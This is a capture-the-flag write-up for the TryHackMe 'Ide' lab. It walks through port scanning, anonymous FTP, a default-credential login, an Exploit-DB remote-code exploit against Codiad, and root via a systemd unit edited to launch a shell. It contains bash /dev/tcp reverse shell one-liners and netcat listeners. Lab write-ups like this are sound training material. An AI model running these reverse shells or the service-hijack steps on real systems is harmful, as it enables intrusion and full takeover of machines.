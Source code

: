 ## Ide 

Room link: 

# Scanning 
I ran an aggressive nmap scan to begin. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A 10.10.88.255
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-14 20:17 EDT
Nmap scan report for 10.10.88.255
Host is up (0.094s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.1.236
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
```
A full nmap scan showed a random high port. 
```
ajread@aj-ubuntu:~/TryHackMe/thm_writeups_publish$ nmap -p- 10.10.252.87
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-30 18:46 EDT
Nmap scan report for 10.10.252.87
Host is up (0.090s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 239.50 seconds
```

# Enumeration 
I first looked into the anonymous ftp login. There was a file called ```-``` nested within a directory or two. 
```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> cd ./-
550 Failed to change directory.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (1.1163 MB/s)
```
The note itself said the following: 
```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

# Initial Access
Based on the note, I navigated to the Codiad service running on port 62337 and logged in with credentials ```john:password```. Therefore, I knew that I had correct credentials for the service. I found a RCE on exploitdb: ```https://www.exploit-db.com/exploits/49705``` that requires authentication. The RCE appeared to 

Before running the exploit, it required me to set up a VPS for the connection. So, in one terminal, I set up reverse shell in bash that would pipe to another listener on my machine from the remote connection. 
```
echo 'bash -c "bash -i >/dev/tcp/10.8.1.236/10000 0>&1 2>&1"' | nc -lnvp 9999
```
In another terminal I set up the listener on port 10000 to receive the reverse shell. 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
```
After everything was set up, I ran the exploit.
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 49705.py http://10.10.252.87:62337/ john password 10.8.1.236 9999 linux
```
And, I received a shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
Listening on 0.0.0.0 10000
Connection received on 10.10.252.87 57402
bash: cannot set terminal process group (939): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
But, I was only the ```www-data``` user. I needed to move to the ```drac``` user in order to see the user flag. 
```
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
After some looking around, I found credentials within user ```drac``` bash history. 
```
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```
I used ssh to log in with the credentials and found the flag! 
```
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
drac@ide:~$ wc -c user.txt
33 user.txt
```
# Privilege Escalation 
Using  ```sudo -l``` it looked like I could restart vsftpd as root. 
```
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
I looked at the ```vsftpd.service``` file and with my write permissions I changed the ```ExecStartPre``` field to a reverse shell as seen below. The ```ExecStartPre``` contains additional commands that are run after ```ExecStart```. This page was a great resource: ```https://www.freedesktop.org/software/systemd/man/systemd.service.html```. 
```
drac@ide:/lib/systemd/system$ cat vsftpd.service 
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty
ExecStartPre=-/bin/bash -c "bash -i >& /dev/tcp/10.8.1.236/8888 0>&1"

[Install]
WantedBy=multi-user.target
```
I started a listener on my local machine to catch the elevated reverse shell based on the information in ```ExecStartPre```.
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
```
Then, I had to reload the daemon on the remote machine before restarting vsftpd. 
```
drac@ide:/lib/systemd/system$ systemctl daemon-reload
```
Finally, I was able to restart the service as root on the remote machine. 
```
drac@ide:/lib/systemd/system$ sudo service vsftpd restart 
```
And it called back to my local machine with an elevated shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.27.26 35294
bash: cannot set terminal process group (1683): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
